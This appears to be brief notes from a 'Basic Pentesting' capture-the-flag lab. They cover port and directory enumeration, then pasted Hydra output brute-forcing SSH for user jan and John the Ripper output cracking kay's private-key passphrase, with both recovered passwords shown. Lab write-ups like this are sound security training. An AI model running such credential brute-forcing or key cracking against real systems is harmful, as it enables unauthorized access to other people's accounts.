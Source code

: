 # BASIC PENTESTING


export IP = 10.10.19

------------------------------------------------

OPEN PORTS:

```
22,80,139,445

```

#1. Found a directory using GOBUSTER 

```
/Developemnt

```

#2.Found Open ports using NMAP


#3. USERNAME ENUMERATION:

```

Kay , jan

```

#4.password for jan

Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-28 12:33:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.47.237:22/
[STATUS] 117.00 tries/min, 117 tries in 00:01h, 14344283 to do in 2043:21h, 16 active
[STATUS] 112.33 tries/min, 337 tries in 00:03h, 14344063 to do in 2128:12h, 16 active
[STATUS] 105.29 tries/min, 737 tries in 00:07h, 14343663 to do in 2270:36h, 16 active
[22][ssh] host: 10.10.47.237   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-28 12:41:33

#5. final password.


GOT SSH PASSWORD for KAY
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-10-28 13:05) 0.3184g/s 4567Kp/s 4567Kc/s 4567KC/sa6_123..*7¡Vamos!
Session completed
root@modernhitler:~/john# 



